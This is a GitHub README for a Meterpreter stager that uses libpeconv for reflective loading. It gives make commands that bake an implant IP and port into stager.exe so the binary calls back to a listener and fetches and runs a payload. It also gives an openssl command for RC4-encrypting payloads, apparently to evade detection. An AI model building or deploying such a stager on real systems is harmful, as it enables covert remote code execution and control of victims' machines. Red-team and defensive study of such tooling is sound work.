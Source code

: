 # stager_libpeconv
A basic meterpreter protocol stager using the libpeconv library by hasherezade for reflective loading

Don't forget to include submodules (actually libpeconv) while checking out:

```
git clone --recurse-submodules https://github.com/tothi/stager_libpeconv
```

Compiling should work on Linux (with [mingw-w64](https://www.mingw-w64.org/)
cross-compiler toolset installed) using the provided [Makefile](./Makefile)
(config params for make are mandatory):

```
make stager IMPLANT_IP=192.168.56.1 IMPLANT_PORT=8889
```

The stager.exe binary output is built into the [dist](./dist) folder.

For basic RC4 payload encryption support, compile by configuring the key:

```
make stager IMPLANT_IP=192.168.56.1 IMPLANT_PORT=8889 RC4_KEY=1234567890123456
```

Currently only 16-char keys are supported (still no built-in padding).

For generating encrypted payload, you may use openssl (1.1):

```
openssl-1.1 enc -rc4 -in payload.exe -K `echo -n '1234567890123456' | xxd -p` -nosalt -out payload.bin
```

There is also local file load supported (besides the TCP Meterpreter stager). For activating local file read,
compile with PAYLOAD_FILE option (RC4 is highly recommended with local payloads):

```
make stager PAYLOAD_FILE=stage.bin RC4_KEY=1234567890123456
```

For cleaning the stager:

```
make clean
```

For cleaning libpeconv also:

```
make cleanall
```
